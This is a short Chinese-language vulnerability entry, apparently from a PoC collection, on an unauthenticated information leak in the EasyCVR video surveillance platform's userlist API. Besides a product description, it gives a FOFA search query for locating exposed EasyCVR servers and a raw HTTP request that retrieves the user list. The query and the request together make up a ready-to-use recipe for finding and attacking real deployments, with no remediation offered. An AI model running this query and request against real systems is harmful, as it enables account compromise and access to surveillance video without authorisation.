 # EasyCVR视频 userlist 敏感信息泄露漏洞

**fofa**

```
app="EasyCVR-视频管理平台"
```

**一、漏洞简述**

EasyCVR是在现有的及本期新建的各自独立运行的区域视频监控系统之上的视频资源管理平台，可实现视频的统一管理、授权和操控；可方便地提供视频扩容、共享。系统对整合范围内视频信号进行标准化、解码及信号控制等，并提供一个完整的集成管理界面，保证在安全网络中任何位置都可以控制、配置和诊断整个系统。平台支持开放服务接口，实现数据共享，支持集群化部署以及业务系统的本地系统及热备份并且具备数据备份机制。其接口userlist存在敏感信息泄露漏洞。

**二、漏洞检测poc**

```yaml
GET /api/v1/userlist?pageindex=0&pagesize=10 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 0

```



